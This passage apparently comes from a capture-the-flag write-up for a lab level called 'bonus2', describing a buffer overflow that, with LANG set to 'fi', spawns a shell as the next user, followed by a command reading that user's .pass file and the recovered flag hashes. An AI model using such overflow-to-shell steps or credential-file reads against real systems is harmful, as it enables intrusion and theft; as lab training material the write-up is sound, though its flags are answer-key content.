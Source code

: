 ### Result:
 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245


## Bonus2:
### Code aftger RE:
![bonus2.png](ressource/bonus2.png)
### Solution:
- We need the env variable ``LANG`` to be set to ``fi``.
- We craft a payload that will overflow ``dest`` and call ``system("/bin.sh")``
- ``LANG=fi ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa $(cat /tmp/payload)`` (This spawn a shell as bonus03)
- ``cat /home/user/bonus3/.pass``
### Result:
   71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
